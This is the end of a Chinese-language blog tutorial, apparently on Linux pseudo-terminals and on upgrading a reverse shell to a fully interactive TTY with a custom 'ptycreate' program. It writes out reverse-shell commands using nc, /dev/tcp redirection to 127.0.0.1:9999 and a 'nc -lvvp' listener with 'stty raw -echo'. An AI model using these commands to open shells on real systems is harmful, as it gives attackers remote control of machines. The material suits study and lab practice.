 这儿的问题就是：
1. 需要手动把`nc`与`process`作关联，也就是建立进程通信，需要用到两个管道
2. 获取到`slave`设备后还需要与`SHELL`作关联

```
$ nc 127.0.0.1 9999< /tmp/123|./ptycreate >/tmp/123
$ bash </dev/pts/4 >/dev/pts/4 2<&1
```
说实话没有对此很满意，程序需要改进。正好可以借鉴`python的封装形式`：
```
import pty
pty.spawn('bash')
```
类似这样的，只要让`process`的`标准输入/输出`重定向到远程，那命令就缩短成了：
```
$ ./ptycreate >/dev/tcp/127.0.0.1/9999 0<&1 2<&1
$ bash </dev/pts/2 >/dev/pts/2 2<&1
```
这样还是不够，可以在源码内部实现，fork一个`SHELL`，然后将`SHELL`的文件描述符重定向到`slave设备`，完成一个`完全交互式反弹shell`
```
$./ptycreate >/dev/tcp/127.0.0.1/9999 0<&1 2<&1
```
> 最后我发现。。。我好像写了小型远控？SSH？XD

### 控制端
控制端本身就有自己的`pty`实现，因此会在数据进入`slave`前就先被`驱动`处理掉`特殊控制字符`，因此要把控制端的处理暂时禁用掉`stty raw`，同样的，因为有两个`ptmx`，所以连接之后控制端每一个输入的字符都被`double`显示，因此还得禁用一方的键盘输出`stty -echo`
```
$ stty raw -echo
$ nc -lvvp 9999  //因为禁用键盘输出的关系，所以看不见，盲打即可
```
> stty在`on-my-zsh`上支持不太好，不知道什么情况，后面研究一下具体的信息

# 参考文章
* [Linux 的伪终端的基本原理 及其在远程登录（SSH，telnet等）中的应用](https://www.cnblogs.com/zzdyyy/p/7538077.html)
* [ Linux TTY/PTS概述](https://segmentfault.com/a/1190000009082089#articleHeader11)
* [对于Linux内核tty设备的一点理解](https://blog.csdn.net/huchuan1985/article/details/46699037)
* [将简单的shell升级为完全交互式的TTY](http://www.4hou.com/technology/6248.html)
* [对话 UNIX](https://www.ibm.com/developerworks/cn/aix/library/au-speakingunix10/index.html)
* [硬件操作函数](https://blog.csdn.net/pkigavin/article/details/8580703)
* [IBM stty解析](https://www.ibm.com/support/knowledgecenter/zh/ssw_aix_72/com.ibm.aix.cmds5/stty.htm)

 